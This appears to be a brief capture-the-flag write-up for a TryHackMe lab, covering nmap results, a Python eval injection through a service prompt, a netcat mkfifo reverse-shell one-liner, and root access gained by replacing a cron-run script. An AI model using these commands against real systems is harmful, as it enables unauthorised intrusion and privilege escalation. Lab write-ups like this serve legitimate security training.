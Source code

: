 THIS IS A WRITEUP FOR DEVELPY ROOM IN TRYHACKME


NMAP RESULTS

22/tcp    open  ssh               OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 78:c4:40:84:f4:42:13:8e:79:f8:6b:e4:6d:bf:d4:46 (RSA)
|   256 25:9d:f3:29:a2:62:4b:24:f2:83:36:cf:a7:75:bb:66 (ECDSA)
|_  256 e7:a0:07:b0:b9:cb:74:e9:d6:16:7d:7a:67:fe:c1:1d (ED25519)
10000/tcp open  snet-sensor-mgmt?
| fingerprint-strings: 
|   GenericLines: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):

*lets check out port 10000
*there is some python script running
*lets check if we can connect to this port with netcat
*and it does work
*nc 10.10.250.180 10000

        Private 0days

 Please enther number of exploits to send??: 


now we can check if we can exploit by giving inputs
and yes it worked
 Please enther number of exploits to send??: eval('__import__("os").system("pwd")')
/home/king

time to spawn a rev shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.162.105 1244 >/tmp/f


we got the shell
 after stablising it i found some scripts in the home directory

time to check crontab
there i found root.sh is running as root every minute
but we dont have permission to edit it
but we can remove it and create a new script with same name and a rev shell on it
boom... after a min we got root shell


























